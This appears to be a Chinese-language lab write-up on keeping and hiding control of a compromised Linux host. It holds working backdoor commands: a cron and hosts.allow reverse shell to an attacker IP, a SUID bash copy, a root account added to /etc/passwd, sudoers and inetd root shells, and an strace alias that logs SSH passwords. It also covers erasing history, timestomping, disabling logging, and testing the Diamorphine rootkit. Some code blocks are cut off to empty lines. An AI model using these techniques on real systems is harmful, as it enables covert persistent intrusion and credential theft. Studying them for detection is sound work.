



零、Linux下的控守技术概述
控守技术可以理解为权限维持技术，泛指攻击者获取目标机器的控制权限后，将该权限长久维持的技术和方法
这里主要分为两大类：
- 权限维持：能够在失去当前控制权限时，下次能更容易地重获权限的方法
- 痕迹隐藏：能够使当前控制权限尽量避免被查出或杀死的技术
一、权限维持
1.1 定时任务后门
使用crontab命令去定期执行一些脚本命令。例如定期执行一个反弹shell：
1 |
|
然后在/etc/crontab中添加定时任务，每分钟执行一次上面的脚本：

（验证成功）
1.2 SUID程序后门
SUID程序是一种普通用户在运行时，会拥有root权限的程序
首先SUID权限仅对二进制程序有效；
执行者必须对这个程序有可执行的权限；
本权限仅在执行该程序的过程中有效；
在执行过程中执行者将具有该程序拥有者的权限。
当我们在已经获得了root用户的权限下，要去维持这个root用户的权限时
在root用户执行：
1 | cp /bin/bash /var/.hack |

我们通过这样的方式去留下一个SUID后门，当我们丢失了root权限，只有一个普通用户权限的时候运行以下命令，重新拿到root权限：/var/.hack -p

（验证成功）
1.3 SSHKey后门
当我们具有写入权限的时候，我们同样可以自行生成密钥，当kali机器第一次生成密钥的时候，并且把公钥放在了你的服务器上面，当你把公钥放在服务器上面的时候，这就意味着他可以正常的解密和加密你发过来的内容，后面你就是通过加解密去认证会话的，并不需要输入密码
例如生成一个密钥对：ssh-keygen -t rsa，攻击者将生成的公钥内容写入到目标机器（假如是是192.168.52.13）/root/.ssh/authorized_keys文件中，之后攻击者在攻击机上运行ssh root@192.168.52.13，就可以无密钥链接目标机器了
（验证成功）
1.4 添加用户
原理上和运行useradd命令类似，这里使用openssl生成密码并写入到/etc/passwd
执行：openssl passwd -1 -salt admin 123456
-1是使用md5cryot加密算法，-salt是指定盐为admin，“123456”则是明文密码，执行后返回这个字符串“$1$admin$LClYcRe.ee8dQwgrFc5nz.”
之后执行echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /etc/passwd
之后就可以在攻击机上远程连接目标主机：ssh admin@192.168.52.13
（验证失败，远程登录时显示鉴权失败）
或者直接useradd
1.5 SSH软连接后门
软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为“su”，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录
在目标机器上执行
1 | ln -sf /usr/sbin/sshd /tmp/su |
攻击机上执行ssh root@192.168.52.13 -p 8080，之后的密码随意输入，即可登录靶机的root用户
（验证失败，无法输入任意密码登录root）
注：查看此计算机SSH是否开启PAM认证cat /etc/ssh/sshd_config|grep UsePAM
1.6 SSH Wrapper后门
在目标机器上执行
1 | cd /usr/sbin/ |
原理：启动/usr/sbin/sshd，脚本执行到getpeername这里的时候，正则匹配会失败，于是执行下一句，启动/usr/bin/sshd，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的/usr/sbin/sshd，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，getpeername能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell。
攻击机之后再执行：socat STDIO TCP4:192.168.52.132:22,sourceport=13377，即可返回一个shell
（验证成功）
1.7 Keylogger记录密码后门
前提是目标机器上存在strace工具
原理：当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码。
编辑/root/.bashrc，加入如下字段：
1 | alias ssh='strace -o /tmp/.sshpwd-`date '+%Y-%m-%d'`.log -e read,write,connect -s2048 ssh' |
意思是：首先alias是取一个叫ssh的别名，然后将登陆的密码日志就通过strace这个工具记录到tmp这个目录下并且以.sshpwd加上当前的日期时间为文件名的文件中
之后执行source .bashrc使其生效
所以当我们执行ssh通过root去连接的时候，或者切换用户的时候，就会将密码记录到/tmp目录下的.sshpwd加上日期时间的日志里
ssh root@127.0.0.1，输入密码之后，之后可以在/tmp文件夹下找到对应生成的日志记录，可以在里面找到密码字段：

（验证成功）
1.8 sudoers利用后门
sudo命令可以使用户临时获得管理员权限执行命令，sudo的控制都是基于sudoers文件来控制的，里面限制了用户名，用户组，执行什么等。
/etc/sudoers的通用格式为：user host runas command user:一位或几位用户，在/etc/group中可以用一个%代替它，组对象的名称一定要用百分号%开头。
host:一个或几个主机名；runas:作为哪个用户运行，常见选项是root和ALL command:想让用户或组运行的一个或几个根级别命令。
例如：hans ALL=(root) useradd,userdel 授权hans用户在所有计算机上以root身份运行useradd,userdel命令。
这样我们用一句话将内置/或者我们自己添加的普通权限用户添加到sudoer列表中，这样就可以偷着执行管理员权限的命令了。将原本低权限用户当做后门使用。
编辑/etc/sudoers.d/README，写入xiaowang ALL = NOPASSWD: ALL，这里的xiaowang就是丢失root权限后用来取回root权限的普通用户（前提xiaowang用户需要事先存在）

此时我们切换为普通用户xiaowang以模仿实战中我们丢失了root身份，然后我们执行sudo -i即可重新拿回root身份

（验证成功）
1.9 Strace监听SSH来源流量记录密码
strace不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用
之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用strace来监听登陆本地的sshd流量
执行以下代码：strace -f -p {sshd进程的PID} -o /tmp/.ssh.log -e trace=read,write,connect -s 2048
此时我们任何使用ssh登录或者切换用户的操作，密码都会被记录到/tmp/.ssh.log文件中，可以在其中抓取到密码
1.10 inetd远程后门
前提是目标机器有已安装openbsd-inetd
inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。
inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。
位置是/etc/inetd.conf 配置格式：[servicename] [socktype] [proto] [flags] [user] [server_path] [args] 在配置文件下写入以下内容：
daytime stream tcp nowait root /bin/bash bash -i
意思是：
daytime服务（13端口） 套接字类型 协议类型 不等待 用户组 提供服务的程序
daytime stream tcp nowait root /bin/bash bash -i
之后启动服务：inetd
之后攻击机直接用这个命令就能远程连接拿到root shell：nc 192.168.52.13 13
（验证成功）
1.11 TCP Wrappers反弹shell后门
TCPWrappers是一个工作在第四层（传输层）的的安全工具，对有状态连接的特定服务进行安全检测并实现访问控制，凡是包含libwrap.so库文件的的程序就可以受TCPWrappers的安全控制。它的主要功能就是控制谁可以访问，常见的程序有rpcbind、vsftpd、sshd，telnet。
TCP_Wrappers有一个TCP的守护进程叫做tcpd。以ssh为例，每当有ssh的连接请求时，tcpd即会截获请求，先读取系统管理员所设置的访问控制文件，符合要求，则会把这次连接原封不动的转给真正的ssh进程，由ssh完成后续工作；如果这次连接发起的ip不符合访问控制文件中的设置，则会中断连接请求，拒绝提供ssh服务。
TCP_Wrappers的使用主要是依靠两个配置文件/etc/hosts.allow, /etc/hosts.deny，用于拒绝和接受。这里演示使用的是接受配置信息。之所以能够被用作后门是因为他存在一个参数是spawn （spawn启动一个外部程序完成执行的操作） 修改/etc/hosts.allow文件，向其中添加以下命令：
ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/攻击机IP/6666 0>&1") & :allow
之后攻击机开启监听：nc -lvp 6666
当目标主机使用ssh连接的时候（例如执行ssh root@127.0.0.1），它开始匹配规则，然后利用spawn执行的nc反弹了一个root权限的shell：

（验证成功）
1.12 systemd服务后门
Linux下的服务启动后门，可创建或配置系统服务文件中的“ExecStart”参数，实现启动服务时，调用恶意代码的执行。
在/usr/lib/systemd/system中创建自己的服务描述文件：touch hack.service，并写入以下内容：
1 | [Unit] |
接着加入可执行权限：sudo chmod 755 hack.service
攻击机监听：nc -lvp 7777
接着目标机器启动所创建服务，攻击机就可以得到一个root shell
（验证失败，目标机器无法启动hack服务）
二、痕迹隐藏
2.1 history命令记录
[space] set +o history：关闭history命令记录，前面加上空格的话，这条命令本身也不会被记录
[space] set -o history：重新打开history命令记录
history -d [num]：删除指定编号的命令记录（编号为执行history时前面的数字）
此外执行命令时，一开始加空格也可以临时不记录命令执行
同时用户目录下的.bash_history就是记录当前用户命令记录的文件
2.2 修改文件创建时间
touch -r index.php hack.php：将hack.php文件的时间属性改成与index.php文件相同，以此逃避通过检测文件修改时间来判断是否为后门的检测方式
2.3 文件锁定
在Linux中，使用chattr命令来防止root和其他管理用户误删除和修改重要文件及目录，此权限用ls -l是查看不出来的，从而达到隐藏权限的目的。
1 | chattr +i evil.php # 锁定文件 |
2.4 隐藏SSH登录记录
当我们用ssh进行登录时，就会记录，信息包括登录的账号，远程登录的主机，登录时间。
ssh加上-T参数，可以进行隐藏登录记录，不被w、who、last等指令检测到
ssh -T -i id_rsa root@192.168.110.131 /bin/bash -i
2.5 关闭系统日志功能（待验证）
编辑/etc/rsyslog.conf以及/etc/rsyslog.d/下的所有配置文件，注释掉各项即可关闭对应的日志记录功能（不再把日志信息记录到指定文件）

不排除有其他相关设置的可能
关闭系统日志功能：systemctl stop rsyslog、systemctl disable rsyslog（具体效果待检验）
2.6 rootkit
2.6.1 概述
rootkit是一种用于捕获流经计算机的密码和消息流量的黑客安全工具。一组提供系统后门，收集网络上其他系统信息，掩盖系统受损事实等功能的黑客工具。
大体上可以分为三类：
- 应用级rootkit：主要替换一些系统工具或应用程序，或修改.rhosts等系统配置文件等
- 硬件级rootkit：在系统加载前获得控制权，通过向磁盘中写入文件再由引导程序加载该文件重新获得控制权，使整个操作系统运行在rootkit的掌握之中
- 内核级rootkit：介于两者之间，以操作系统的内核级特权（ring 0）运行，下面主要讨论内核级rootkit的使用
内核级rootkit最简单的实现方法就是编写一个内核模块（kernel module），编写并编译形成.ko文件，通过sudo insmod命令即可将rootkit安装到系统中。
一个内核级rootkit最基本的功能有以下几种：

需要注意的是内核级rootkit对Linux内核版本的要求比较严格，植入内核级rootkit时一定要注意与内核版本相对应
2.6.2 基本功能实现思路
下面的演示对应的系统及内核版本为：Ubuntu 20.04、Linux 5.4.0-52
内核级rootkit最基本的实现思路，就是hook系统调用：
执行系统命令
执行目标系统调用时劫持
运行自己的hook函数
直接返回或者返回原始系统调用
完成指定功能
如下图所示
文件隐藏
比如要实现文件隐藏的功能，具体的原理和思路如下所示：
用户执行ls等命令时，会调用sys_getdents64()以读取目录列表，返回读取的所有条目的总字节长度，并返回到用户空间并输出
64位Linux使用linux_dirent64结构对一个目录条目进行描述（directory entry）：
其中的重点字段：
- d_reclen：当前条目对象的字节长度，用于定位下一个条目
- d_name：当前条目的名称
当ls命令执行时，通过以下步骤进行拦截回显：

- 用户调用ls等命令，拦截
sys_getdents64()的返回内容 - 复制到内核空间，找到要隐藏的条目cur_dir以及其上一个条目pre_dir
- pre_dir.d_reclen += cur_dir.d_reclen，从而遍历时跳过待隐藏条目
- 将修改后的结果返回给用户空间
- 输出时隐藏了file2的显示（但条目依然存在）
进程隐藏
几乎所有提供进程信息的用户空间工具都通过读取/proc/下的文件来获取信息，因此进程隐藏可以在文件隐藏的基础上完成实现，只需隐藏/proc/下带有待隐藏进程PID前缀的所有条目即可（循环遍历）
端口隐藏
以ipv4下的tcp端口为例，读取端口信息时会循环调用tcp4_seq_show()函数，从而把获取的信息返回到用户空间
获取到的信息涉及到一个叫sock_common的对象，其中sck_num字段指代端口号，因此得到了隐藏端口显示的切入点
具体步骤：
- 调用tcp4_seq_show()函数时拦截，转向运行hook函数
- 判断当前处理的sock的sck_num字段是否为待隐藏端口
- 是则取消引用，返回0
- 否则转交给原tcp4_seq_show()函数进行处理
ipv4下的udp端口以及ipv6下的tcp及udp端口也类似处理
进程保护
使用kill命令去终止某个PID对应的进程时，会调用sys_kill()，同时传递PID、信号等参数，因此可以hook掉sys_kill函数：
- 用一个结构（链表）存储要保护的进程PID
- 当sys_kill()被调用时进行拦截
- 判断要kill的PID是否存在于链表中
- 是则返回0
- 否则转交给原sys_kill()正常处理
2.6.3 rootkit评估
GitHub上的一个仓库，收集了Linux下众多各种各样的rootkit：https://github.com/milabs/awesome-linux-rootkits
包括了用户级rootkit、内核级rootkit以及相关资料等，来源于学术界最新成果或工业界成熟套件，涵盖了
这里评估一个1.3K Stars的项目：https://github.com/m0nad/Diamorphine
是一个针对内核版本为2.6.x/3.x/4.x/5.x的内核级rootkit
功能特性：
- 安装时即隐藏自身
- 通过
kill -31 目标进程PID命令隐藏目标进程 - 通过
kill -64 任意进程PID命令使当前用户拥有root权限 - 将任何以{MAGIC_PREFIX}为名称前缀的文件或文件夹隐藏
下面在64位22.04.1版本，内核版本为5.19.0-43-generic的Ubuntu系统上进行测试。
首先测试进程隐藏，新建一个root shell窗口，打印进程PID为4315，通过ps -aux查看所有进程信息，得到三个相关进程：

通过kill -31 4315、kill -31 4314、kill -31 4313三条命令将上述进程隐藏，再执行ps -aux，可以看到相关进程已经隐藏，但root shell依然存在：

接着测试文件隐藏，首先创建hack.php文件，内容为“hello there”
接着改变名称以{MAGIC_PREFIX}为前缀，这里的{MAGIC_PREFIX}在rootkit头文件中默认定义为“diamorphine_secret”。再次运行ls或la命令，可以看到文件已隐藏，但执行cat ./diamorphine_secret_hack.php，依然能够输出文件内容，说明文件依然存在：
最后测试权限提升功能，直接执行kill -64 1，就可以将当前用户权限提升为root：

还有其他已有的rootkit项目实现了其他功能，例如建立反弹shell、隐藏tcp连接等